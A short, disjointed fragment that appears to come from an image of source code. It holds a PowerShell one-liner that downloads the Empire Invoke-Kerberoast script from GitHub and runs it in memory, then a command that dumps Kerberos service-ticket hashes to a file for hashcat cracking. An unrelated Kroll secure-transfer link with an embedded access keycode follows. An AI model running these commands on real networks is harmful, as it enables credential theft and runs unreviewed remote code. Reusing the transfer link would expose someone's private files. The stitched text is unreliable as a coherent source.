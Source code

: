 iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast


https://securetransfercanada.kroll.com/receive/?packageCode=7qtIkf0UcYTRXqhOG8HxMbbH9BWKziagah9p89VGd3w#keycode=hqWFML4xMoDgQRMkhAb8rqOBidwMFW0RIigi1lE7Bx8
